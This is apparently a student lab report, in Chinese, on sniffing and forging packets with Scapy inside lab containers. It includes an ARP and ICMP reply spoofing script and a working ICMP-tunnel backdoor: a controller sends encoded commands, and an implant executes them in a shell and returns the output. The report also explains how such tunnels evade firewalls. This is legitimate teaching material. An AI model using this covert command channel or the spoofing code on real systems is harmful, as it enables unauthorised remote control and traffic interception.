# 数据包嗅探和伪造实验
## 实验主题
• 数据包嗅探和伪造的工作原理
• 使用 pcap 库和 Scapy 进行包嗅探
• 使用 raw socket 和 Scapy 进行数据包伪造
• 使用 Scapy
## 实验环境搭建
1. 使用容器搭建使用环境
   使用三个容器作为连接在同一局域网中的三台机器：
    
2. 容器配置与命令介绍：
   
   
3. 攻击者容器差异介绍：
   1. 共享文件夹：由于需要将共攻击代码写入攻击者容器内部，但在虚拟机上编辑代码比在容器中更方便，所以在Docker Compose文件中添加了以下条目将虚拟机中的./volumes文件夹挂载到攻击者容器中的/volumes文件夹，以便于在虚拟机中奖攻击代码写入攻击者容器
   2. 主机模式：在本实验中，攻击者需要能嗅探到数据包，但桥接模式下每个容器实际上是连接到一台虚拟交换机上，每个容器只能看到自己的流量，而无法看到其他容器间的数据包，因此需要将攻击者容器设置为主机模式
4. 获取网络接口名称方法
   1. 官方提供的Compose文件为实验创建容器时Docker会自动创建一个新的网络用于连接VM和容器，该网络的IP前缀为10.9.0.0/24，分配给VM的ip是10.9.0.1
      因此`ifconfig`查看所有网络接口找到IP地址为10.9.0.1的接口名即可
      
   3. 接口名称是由br-和Docker创建的网络id拼接而成，、
      通过`docker network ls`查找网络ID
      
      net-10.9.0.0对应的id即使我们需要的，由此可以拼接出网络接口名称br-9c5a85e08f05
## 实验内容
### 使用Scapy嗅探和伪造数据包
1. 嗅探包
   1. 基础嗅探程序
      1. python文件中【注意执行脚本时要以root身份，使用sudo权限】
         ```python
         #sniffer.py
         #!/usr/bin/env python3
         from scapy.all import *
         def handle(pkt):
            print(pkt.show())
         pkt=sniff(iface="br-9c5a85e08f05",count=5,prn=handle)
         ```
         在容器B中ping一下容器A
         
         sniffer.py程序成功嗅探到数据包并输出数据包的详细信息
         
       若不使用root权限：程序会报错
       原因：
         嗅探需要创建原始套接字来访问网络数据包
         可能需要开启混杂模式
         BPF过滤器需要在内核级别设置过滤器
         需要权限来查看所有流经网卡的数据包
       权限要求对比：
         
      2. 命令行交互环境
         
         在容器B中ping一下容器A
         
         
         成功嗅探到数据包并输出详细信息
   2. 过滤功能嗅探程序
      1. 只捕获ICMP数据包
         1. 代码示例：
            ```python
            from scapy.all import *
            sniff(iface="br-9c5a85e08f05",filter="icmp",prn=lambda p:p.summary())
            ```
         2. 验证：
            1. 运行该嗅探程序
            2. 在容器B中用telnet连接容器A
            
            在容器B中发送给容器A的ping包
            3. 只功捕获icmp包，而不捕获tcp包，过滤成功
      2. 只捕获来自某个特定ip且目标端口为23的TCp包
         1. 代码示例：
            ```python
            from scapy.all import *
            sniff(iface="br-9c5a85e08f05"filter="tcp and src host 10.9.0.6 and dst port 23",prn=lambda p:p.summary())
            ``` 
         2. 验证:
            1. 运行该程序
               
            2. 不同的数据包 
               1. 在容器B中用telnet连接服务器A的23端口
               2. 在容器B中给A发送ping包
               3. 在容器A中用telnet连接服务器B
            3. 该程序只嗅探指定的数据包，过滤成功
      3. 只捕获来自或去往某个特定网络的包
         1. 代码示例：
         2. 验证： 
2. 伪造ICMP的echo请求包
   1. 代码示例：
      `send(IP(dst="10.9.0.5")/ICMP())` 
   2. 验证：
      1. 在目标ip对应的容器中运行tcpdump嗅探eth0网卡中流经的icmp包`sudo tcpdump -i eth0 icmp`
      
      2. 在vM中运行该程序 
         
      3. 检查目标ip对应的容器是否嗅探到了我们伪造的icmp包
         
         伪造包发送成功
3. Traceroute功能实现
   1. 实现原理：先将ttl设置为1获得第一跳路由器的IP地址，然后在将ttl设置为2，获得第二跳路由器的IP地址，以此类推直到数据包到达目标ip主机
       
   2. 自动化traceroute功能代码示例
      icmp 
      ```python
      from scapy.all import *
      def mytraceroute(dest,max_jumps=30):
         print(f"mytraceroute:->{dest}")
         for t in range(1,max_jumps+1):
            #循环30次，每次ttl+1
            ip=IP(dst=dest,ttl=t)
            icmp=ICMP()
            packet=ip/icmp
            reply=sr1(packet,timeout=2,verbose=False)
            if reply is NONE:
               print(f"{t:2d}:超时")
            elif reply.type==0:
               print(f"{t:2d}:{reply.src}到达目标主机")
               break
            elif reply.type==11:
               print(f"{t:2d}:{reply.src}路由器返回")
            else:
               print(f"{t:2d}:{reply.src}类型={reply.type}")
      dest=input("请输入目标ip\n")
      mytraceroute(dest)
      ``` 
      验证：
      测试10.9.0.5可以成功
      但测试别的不行
      不知道为什么一直显示超时
4. 嗅探和伪造结合
   1. 不同情况的工作流程
      1. 在同一局域网内：
         1. 目标主机存在，响应源主机发送的ARP请求，源主机收到响应包，知道目标主机的MAC地址后才会向目标主机发生icmp包，spoof程序嗅探到源主机发的icmp包后发送伪造的响应包给源主机
         2. 目标主机不存在，如果没有主机响应，源主机的ARP请求超时，系统报错Destination Host Unreachable，源主机不会发送icmp包，该情况下spoof需要嗅探源主机的ARP请求，然后伪装成目标主机发送ARP响应给源主机，这样源主机才会接着发送icmp包
      2. 在不同局域网中
         源主机发送ARP请求询问网关的MAC地址，网关响应源主机的ARP请求，源主机收到响应后向网关发送icmp包，spoof程序嗅探到icmp包并伪造
   2. spoof程序的构造要点：
      1. 嗅探到源主机的ARP请求
      2. 判断在局域网中是否存在该主机
      3. 若存在就不发送伪造的ARP响应
      4. 若不存在就伪造ARP响应使源主机不管局域网中目标主机是否存在都能够发送icmp包
      5. 嗅探到icmp包
      6. 伪造icmp响应发送给源主机
   3. 代码示例：
      ```python
      #spoof.py
      #!/usr/bin/python3
      from scapy.all import *
      import sys
      def handle(pkt):
         if ARP in pkt and pkt[ARP].op==1:
            fakearp=Ether(dst=pkt[ARP].hwsrc)/ARP(psrc=pkt[ARP].pdst,hwsrc=get_if_hwaddr(conf.iface),pdst=pkt[ARP].psrc,hwdst=pkt[ARP].hwsrc,op=2)
            sendp(fakearp,iface="br-9c5a85e08f05",verbose=False)
            print("fakearp sent")

         elif ICMP in pkt and pkt[ICMP].type==8:
            print("sniff ok")
            pkt.summary()
            payload=pkt[Raw].load if Raw in pkt else b""
            rpkt=IP(src=pkt[IP].dst,dst=pkt[IP].src)/ICMP(type=0,id=pkt[ICMP].id,seq=pkt[ICMP].seq)/payload
            send(rpkt,verbose=False)
            print("send ok")
      print("sniff start")
      pkt=sniff(iface="br-9c5a85e08f05",filter="icmp or arp",prn=handle)
      ``` 
   4. 验证：在VM中期待spoof.py程序
      1. 在用户容器中ping另一个用户容器
         1. 成功接收到了spoof程序发的响应包
         2. 成功嗅探到了icmp包并成功发送了响应
      2. 在用户容器中ping互联网上的一个不存在的主机   
         1. 不开启spoof程序时收到四个地址不可达的响应包
         2. 开启spoof程序时
      3. 在用户容器中ping局域网上的一个不存在的主机
         1. 不开启spoof程序时收到四个地址不可达的报错
         2. 开启spoof程序时收到四个icmp响应包（程序伪造的）
         3. 程序段成功发送伪造的arp响应包和icmp响应包
      4. 在用户容器中ping互联网上的一个存在的主机
         1. 不开启spoof程序时收到四个响应包
         2. 开启spoof程序时收到四个正常响应包和三个程序伪造的数据包
### 使用Scapy实现ICMP隧道
1. ICMP协议的结构：
    
   type：标识ICMP报文类型，如：8表示Echo Request，0表示Echo Reply
   code：进一步细化报文类型
   checksum：校验和，用于错误检测
   data：可变长的数据字段，是隐蔽通信的主要载体 
2. ICMP隧道原理：将需要发送的数据编码后放到icmp报文的data字段中，通过发送Echo Request（ping请求）进行传输。接收端接收并解析icmp报文，提取data字段中的内容进行解码就可以获得原始数据
3. ICMP隧道的优势：
   1. 大多数防火墙不会阻断icmp流量
   2. icmp报文不受端口限制
   3. 正常的ping流量不易引起怀疑
4. ICMP隧道scapy实现的思路
   1. 控制端程序：运行在攻击者容器中，将命令编码后填入icmp请求报文数据段，发送给受控端，然后从icmp响应中解码执行结果
   2. 受控端程序:运行在用户容器中，监听icmp请求，从icmp请求报文的数据段解码命令并执行，然后将执行结果填入icmp响应报文数据段返回给控制端
5. 控制端代码实现
   ```python
   from scapy.all import *
   import base64
   def outputres(res):
      output=base64.b64decode(res[Raw].load).decode('utf-8')
      print(f"执行结果为：{output}")
   def sendcmd(cmd):
      
      payload=base64.b64encode(cmd.encode('utf-8'))
      pkt=IP(src="10.9.0.1",dst="10.9.0.5")/ICMP(type=8,code=0)/Raw(load=payload)
      res=sr1(pkt,timeout=2,verbose=False)
      print("命令已发送")
      if res and ICMP in res:
         print("结果已返回")
         if Raw in res:
            outputres(res)
         else:
            print("返回结果为空")
   while True:
      cmd=input("请输入想要执行的命令\n退出程序请输入exit(0)")
      if cmd =="exit(0)":
         break
      else:
         sendcmd(cmd)
   ``` 
6. 受控端代码实现
   ```python
   from scapy.all import *
   import subprocess
   import base64
   def handle(pkt):
      if ICMP not in pkt:
         return
      if pkt[ICMP].type==8 and Raw in pkt:
         print("icmp数据包已捕获")
         cmd=base64.b64decode(pkt[Raw].load).decode('utf-8')
         result=subprocess.run(cmd,shell=True,capture_output=True,text=True)
         output=result.stdout
         res=base64.b64encode(output.encode('utf-8'))
         rpkt=IP(src="10.9.0.5",dst="10.9.0.1")/ICMP(type=0,code=0)/Raw(load=res)
         send(rpkt,iface="eth0",verbose=0)
         print("执行结果已发送")
   print("等待捕获icmp包")
   pkt=sniff(iface="eth0",filter="icmp",prn=handle)
   ```
7. 通信验证
   1. 屏蔽系统内核的自动回复：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`使用 iptables 丢弃内核回包
   2. 运行受控端程序
   3. 运行控制端程序输入要执行的命令成功
8. wireshark抓包分析
   1. 非常完美的捕获了两个ARP包和两个ICMP包
   2. 查看Echo Request请求包的详细内容就是我们输入的pwd进行base64编码的结果
## 实验总结
1. 踩坑
   1. 在任务1.4中发送伪造的ARP响应包时要指定接口不然默认的接口可能不是br-9c5a85e08f05，导致源主机收不到我们伪造的ARP响应包从而超时报错无法发送icmp包
   2. 在任务2中注意必须先屏蔽内核的自动回复让内核忽略所有 ICMP Echo 请求`sysctl -w net.ipv4.icmp_echo_ignore_all=1`使用 iptables 丢弃内核回包`iptables -A OUTPUT -p icmp --icmp-type echo-reply -j DROP`，不然控制端收到的就是受控端内核默认返回的数据包而不是程序发送的数据包就会导致不返回命令执行结果而将命令原样返回
   3. 任务2中在控制端输入ls，pwd，whoami，id都可以，但是输入ls -la时受控端就会报错退出程序：
      推测原因：**网络包的 IP 分片（Fragmentation）**机制
      现象：
         ls 等短命令：输出内容少，Base64 编码后的数据量很小（远小于 MTU 1500 字节）。网络栈将其作为一个完整的包发送。
         ls -la 等长命令：如果目录下文件较多，输出内容很长。Base64 编码（体积增加约 33%）后，数据包总长度极大概率超过了以太网 MTU（1500 字节）。
         IP 分片发生：Linux 内核在网络层会自动将这个大包切分成多个“分片（Fragments）”发送。 
         第一个分片：包含 IP 头 + ICMP 头 + 部分数据。
         后续分片：只包含 IP 头 + 剩余数据（没有 ICMP 头）。
         捕获到非法包：你的 sniff 函数捕获到了你自己发出的后续分片包（在容器或特定网络环境下，Sniff 常能捕获本机发出的流量）。
         崩溃：当 handle 处理后续分片时，执行 pkt[ICMP]，因为该包没有 ICMP 层，Scapy 直接抛出报错导致程序崩溃，所以在程序中加入一些防御性检查
      修正：
      验证：这下就可以成功执行`ls -la`,返回结果而且不报错退出
2. 问题与思考
   1. 为什么任务1.4验证1中用户容器发了四个ping包，收到了4个正常响应，却只收到了3个程序发送的响应
   2. 为什么`traceroute www.baidu.com`全部显示超时但`traceroute -I www.baidu.com`中间节点全都显示超时但可以显示最终到达的ip地址用自己写的traceroute程序也全部显示超时
      可能的原因：traceroute默认使用UDP协议，目标端口33434-33534
      当使用`traceroute -I www.baidu.com`icmp协议时
   3. 任务2中将命令填入data段时为什么不用考虑字节序问题
      原因：数据是逐字节存储和输入的字节序只影响多字节数值类型如：整数（2字节，4字节，8字节），浮点数等字符串/字节数组没有字节序问题
3. 知识点
   1. 网络/主机字节序与转换
      网络字节序采用大端格式，X86CPU主机采用小段格式，无论数据是放入包缓冲区还是其他地方都需要采用大端序，否则构造的包是不正确的
      字节序转换函数：
      1. htonl()：将主机字节序的无符号整数转换为网络字节序
      2. ntohl()：htonl的逆过程
      3. htons()：将主机字节序的无符号短整数转换为网络字节序
      4. ntohs()：htons的逆操作
   2. Scapy
      1. 简介：一个交互式数据包操作工具，可以用作python库也可以作为命令行交互环境使用
      2. 核心能力：
         1. 数据包嗅探（Sniffing）
         2. 数据包构造与伪造（Spoofing）
         3. 数据包发送与接收
         4. 协议解析与分析
         5. 网络扫描与探测
         6. PCAP文件读写
      3. 数据包构造
         1. 基本构造方法：
            1. 使用分层构造的方式构造数据包，使用`/`运算符将各层连接起来
            2. 示例：
               ```python
               form spacy.all import *  #导入scapy库中的所有模块
               ip=IP(dst="8.8.8.8")     #构造ip层
               icmp=ICMP()          #构造icmp层
               packet=ip/icmp       #将IP层和icmp层叠加
               packet.show()        #查看数据包结构
               ``` 
            3. 验证：
                `vim demo.py`
                `sudo ./demo.py`
                
         2. 查看协议字段:
            1. 使用`ls(IP)`查看ip层的所有字段
            2. 使用`ls(ICMP)`查看icmp层的所有字段
            3. 使用`ls(TCP)`查看tcp层的所有字段
         3. 设置字段值
            1. 方式一：构造时指定
               `ip=IP(src="192.168.2.217",dst="8.8.8.8"),ttl=64` 
            2. 方式二：创建后修改
               ```python
               ip=IP()
               ip.src="192.168.2.217"
               ip.dst="8.8.8.8"
               ip.ttl=64
               ``` 
         4. 批量构造数据包
            1. 使用扫描多个目标范围构造
               ```
               packet=IP(dst=["10.9.0.1","10.9.0.2","10.9.0.3"])/ICMP()
               ``` 
            2. 使用掩码构造
               ```
               pasket=IP(dst="10.9.0.0/24")/ICMP()
               ``` 
            3. 使用范围运算符
               ```
               packet=IP(dst="10.9.0.1-10.9.0.10")/ICMP()
               ```  
      4. 数据包嗅探
         1. 基本嗅探：sniff()函数示例
            1. 最简单的嗅探
               ```python
               sniff(count=5)
               #捕获5个包
               ``` 
            2. 指定接口
               ```python
               sniff(iface="eth0",count=5)
               #指定嗅探接口为eth0，捕获5个包
               ```
            3. 使用过滤器（BPF语法）
               ```python
               packet=sniff(filter="icmp",iface="eth0",count=5)
               #指定嗅探的数据包类型为icmp，指定嗅探的接口为eth0，指定嗅探数量为5
            4. 带回调函数 
               ```python
               def handle_packet(pkt):
                  print(pkt.summary())
                  #定义一个用于输出包信息的回调函数
               sniff(prn=handle_packet,filter="tcp",count=5) 
                  #指定嗅探的数据包类型为tcp，指定嗅探数量为5，指定每嗅探到一个数据包都执行一次回调函数handle_pkt
         2. sniff()函数参数详解
            1. count：嗅探数量`count=5`
            2. prn：回调函数`prn=handle_pkt`
            3. fliter：BPF过滤表达式`filter="icmp and host 10.9.0.5"`
            4. iface：嗅探的网络接口名`iface=eth0`
            5. timeout：超时时间（秒）`timeout=10`
            6. offline：指定从PCAP文件读取数据包`offline="文件名.pcap"`
         3. BPF过滤器示例
            ```python
            sniff(filter="ip")       #只捕获ip数据包
            sniffer(filter="tcp and src host 10.9.0.5 and dst port 80")       #只捕获来自10.9.0.5主机，目的端口为80的tcp数据包
            sniff(filter="net 10.9.0.0/24")     #只捕获来自或发往特定网络的数据包
            sniff(filter="(arp and tcp) and host 10.9.0.1") #只捕获主机10.9.0.1的tcp或arp数据包
         4. 高级嗅探示例：
            ```python
            sniff(filter="icmp",prn=lambda x:x.sprintf("{IP:%IP.src%->%IP.dst%\n}{RAW:%RAW.load%\n}"))
            #字符串格式化输出数据包中的指定内容
            sniff(offline="file.pcap",fliter="icmp")
            #从文件中离线嗅探icmp类型的数据包
            class PackerHandler:
               def __init__(self):
                  self.count=0
               def handle(self,pkt):
                  self.count+=1
                  print(self.count+pkt.summary())
            handle=PacketHandler()
            sniff(filter="icmp",prn=handle.handle,count=5)
            #自定义回调函数类
            ``` 
      5. 数据包发送
         1. 发送函数对比
            1. `send()`  作用于第三层（ip）快速发送不等待回复
            2. `sendp()` 作用于第二层（以太网）需要指定mac地址是使用
            3. `sr()`  作用于第三层，发送病接收所有回复
            4. `sr1()` 作用于第三层，发送并只接收第一个回复
            5. `srp()` 作用于第二层，发送并接收所有回复
            6. `srloop()` 作用于第三层，循环发送并持续接收
             
         2. 基本发送示例
            ```python
            send(IP(dst="10.9.0.1")/ICMP())
            #三层发送无需等待回复 
            packet=Ether(dst="aa:bb:cc:dd:ee:ff")/ARP(pdst="10.9.0.0/24")
            sendp(packet)
            #二层发送，指定目的mac地址
            ans,unans=sr(IP(dst="10.9.0.1"))
            ans.summary()
            #发送并等待回复
            reply=sr1(IP(dst="10.9.0.1"),timeout=2)
            if reply:
               reply.show()
            #发送并只等待第一个回复
         3. 处理回复示例：
            ```python
            ans,unans=sr(IP(dst="10.9.0.1")/ICMP())
            #sr()返回两个列表：有回复和无回复
            for sent,received in ans:
               print(f"发送：{sent.src}->{sent.dst}\n回复：{received.src}->{received.dst}\n")
            #遍历所有回复的包
            ```
            ```python
            reply=sr1(IP(dst="10.9.0.1")/TCP(dport=80,flags="S"),timeout=2)
            if reply and reply.haslayer(TCP):
               print(f"端口：{reply.getlayer(TCP).dport}\n状态：{reply.getlayer(TCP).flags}\n")
            #发送到指定端口
            ```
      6. PCAP文件操作
         1. 读取PCAP文件
            ```python
            packets=rdpcap("capture.pcap")
            #读取pcap文件
            for pkt in packets:
            #循环遍历包
               print(pkt.summary())
            ```
         2. 写入PCAP文件
            ```python
            wrpcap("capture.pcap")
            #写入文件
            wrpcap("capture.pcap",packets,append=ture)
            #追加写入
      7. 数据包分析
         1. 包信息查看方法
            ```python
            pkt=IP(src="10.9.0.5",dst="10.9.0.1")/ICMP()/b"data"
            pkt.summary()#摘要信息
            pkt.show()#详细信息
            hexdump(pkt)#十六进制转储
            ``` 
         
         2. 访问各层字段
            ```python
            if pkt.haslayer(ICMP):  #检查是否有ICMP层
               print(pkt.getlayer(ICMP).type)
            #获取并输出ICMP类型
            ```
            
            ```python
            #快捷访问
            print(pkt[IP].src)#源IP地址
            print(pkt[ICMP].type)#icmp类型
            print(pkt[Raw].load)#原始负载
            ```
            
            ```python
            pkt[IP].ttl=32
            pkt[Raw].load=b"hello"
            ```
            
         3. 过滤和操作包列表
            ```python
            packets=rdpcap("capture.pcap")
            icmp_packets=[p for p in packets if ICMP in p]
            #过滤icmp包
            src_packets=packets.filter(lambda p: IP in p and p[IP].src=="10.9.0.1") 
            #过滤特定源IP
            packets.conversations()
            #使用conversations查看会话
            ```
      8. 随机化与模糊测试
         1. 随机数生成：spacy提供了随机化功能用于模糊测试和扫描
            ```python
            from scapy.all import RandInt,RandShort,RandIP,RandNum
            src=RandInt()     #32位随机整数
            port=RandShort()  #16位随机整数
            ip=RandIP("10.9.0.0/24") #随机ip
            sport=RandNum(30000,30010)#指定范围生成随机数
            pkt=IP(src=RandIP("10.9.0.0/24"),dst="10.9.0.1")/TCP(sport=RandShort(),dport=RandNum(30000,30010))#在包中使用随机数
            ```
            
         2. fuzz()模糊测试:fuzz()函数会随机化协议字段的值（但保留关键字段如校验和）
            ```python
            #模糊测试TCP包
            fuzzed=fuzz(TCP())
            send(IP(dst="10.9.0.1")/fuzzed) 
            #模糊测试自定义包
            pkt=IP(dst="10.9.0.1")/fuzz(ICMP())
            send(pkt)
            ```
            
            
      9.  常用函数速查表：
         
   3. traceroot
      1. 定义：网络诊断工具，用于追踪数据包从源主机到目标主机经过的路径，显示每一跳的IP地址和响应时间
      2. 示例：
         
      3. 工作原理：
         1. 核心机制：ip头部有应该字段TTL（8位，范围1-255），表示数据包最多能经过多少跳
             
         2. 工作流程：
             
   4. 容器的主机模式vs桥接模式
      1. 背景：Docker的网络配置中默认使用桥接模式，每个容器都有自己独立的网络命名空间，每个容器都只能看到自己的流量，无法嗅探其他容器之间的数据包
      2. 主机模式：
         1. 工作原理：
            
         2. 关键特性：
            1. 共享网络命名空间：容器与主机具有相同的IP地址，网络接口，路由表，iptables规则
            2. ip地址与主机相同
            3. 访问所有网络接口：在主机模式中容器可以看到所有主机的网络接口
            4. 嗅探能力：主机模式中容器可以捕获所有刘静主机网卡的流量包括
               1. 流经主机中其他容器的流量
               2. 流经主机自身的流量
               3. 局域网中的广播包
      3. 主机模式vs桥接模式：
         1. 特性差异：
         
         2. 可视化对比：
         
          
      4. 实验验证
            1. 模式配置：
               
            2. 模式特性验证：
               1. 网络命名空间：
                  1. 在主机中查看主机的网络命名空间
                  `sudo ls -la /proc/1/ns/net`
                  
                  2. 在主机中查看主机模式容器的网络命名空间
                  `dockps`找到运行的容器的id
                  
                  `docker inspect -f '{{.State.Pid}}' 14b8ee336f79`找出主机模式容器的pid
                  
                  `sudo ls -la /proc/主机模式容器的pid/ns/net`
                  
                  与主机的命名空间相同 
                  3. 在主机中查看桥接模式容器的网络命名空间
                  与上面的方法相同，不在赘述
                  
                  与主机的命名空间不同
               2. IP地址：
                  1. 在主机中查看主机的ip
                     
                  2. 进入主机模式容器查看ip地址
                     
                     与主机相同 
                  3. 进入桥接模式容器查看IP地址
                     
                     与主机不同  
               3. 访问网络接口：
                  1. 查看主机所有网络接口
                     
                  2. 进入主机模式容器查看所有网络接口
                     
                     与主机相同，能够访问所有网络接口 
                  3. 进入桥接模式容器查看所有网络接口
                     
                     与主机不同，只能访问自己的虚拟接口  